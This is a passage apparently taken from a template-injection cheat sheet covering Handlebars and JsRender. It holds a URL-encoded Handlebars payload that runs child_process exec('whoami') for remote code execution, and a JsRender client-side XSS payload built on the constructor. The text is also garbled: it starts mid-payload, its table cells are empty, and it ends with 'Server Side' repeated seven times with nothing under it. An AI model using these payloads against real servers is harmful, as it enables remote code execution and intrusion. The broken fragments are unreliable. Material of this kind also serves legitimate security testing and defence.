 ```java
{{/with}}
{{/with}}
{{/with}}
{{/with}}

URLencoded:
%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0D%0A%20%20%7B%7B%23with%20%22e%22%7D%7D%0D%0A%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epush%20%28lookup%20string%2Esub%20%22constructor%22%29%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%23with%20string%2Esplit%20as%20%7Ccodelist%7C%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epush%20%22return%20require%28%27child%5Fprocess%27%29%2Eexec%28%27whoami%27%29%3B%22%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string%2Esub%2Eapply%200%20codelist%29%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%7B%7B%2Fwith%7D%7D%0D%0A%7B%7B%2Fwith%7D%7D
```
**Qapla'!**

* [http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html](http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)

### JsRender (NodeJS)

| **Template** | **Description**                         |
| ------------ | --------------------------------------- |
|              | Evaluate and render output              |
|              | Evaluate and render HTML encoded output |
|              | Comment                                 |
| and          | Allow code (disabled by default)        |

* \= 49

**Client Side**
```python
{{:%22test%22.toString.constructor.call({},%22alert(%27xss%27)%22)()}}
```
**Server Side** 

**Server Side** 

**Server Side** 

**Server Side** 

**Server Side** 

**Server Side** 

**Server Side** 
